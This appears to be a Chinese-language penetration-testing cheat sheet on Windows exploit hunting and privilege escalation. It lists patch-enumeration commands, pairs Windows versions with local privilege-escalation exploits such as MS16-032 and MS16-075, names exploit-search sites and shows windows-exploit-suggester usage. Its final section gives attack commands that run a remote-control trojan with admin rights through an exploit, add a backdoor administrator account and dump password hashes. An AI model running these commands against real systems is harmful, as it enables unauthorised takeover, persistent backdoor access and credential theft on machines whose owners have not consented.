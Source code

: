 # 漏洞利用与提权
## Windows漏洞搜寻
**补丁提取**
`wmic qfe get Caption,description,hotfixid,installedon`
利用补丁提取脚本
systeminfo 查看补丁(需要cmd权限)
`03：pr，巴西烤肉，ms 16-032，8120`
`08：ms 16-075（烂土豆），8120，ms 15-015`
`2012：同 08`
**搜索漏洞常用网站**
`https://exploit-db.com`
`https://packetstormsecurity.com`
`https://packetstormsecurity.com/search/?q=ms15-057`
`https://www.securityfocus.com/`
`https://www.securityfocus.com/bid`
`http://1337day.com`
`http://0day.today`
`http://seclists.org/fulldisclosure`
`http://exploitsearch.net`
`http://www.securiteam.com`
`http://metasploit.com/modules`
`http://securityreason.com`
`https://cxsecurity.com/exploit`
`http://securitytracker.com`


  
## Windows提权辅助工具 windows-exploit-suggester
使用方法：
`将服务器执行systeminfo > a.txt`
`windows-exploit-suggester.py --database 2019-01-01-mssb.xls --systeminfo a.txt`
`windows-exploit-suggester.py --audit --database 2019-01-01-mssb.xls --systeminfo a.txt`
`windows-exploit-suggester.py --audit  -l --database 2019-01-01-mssb.xls --systeminfo a.txt`


  
## Windows溢出提权
方法：
找到未打补丁的漏洞编号
`poc.exe muma.exe`   以管理员身份运行远控木马
`poc.exe “whoami”`查看执行身份权限
`poc.exe “net user x 123.com /add”`
`poc.exe “net localgroup administrators x /add”`
`poc.exe “getpass.exe”` 获取hash



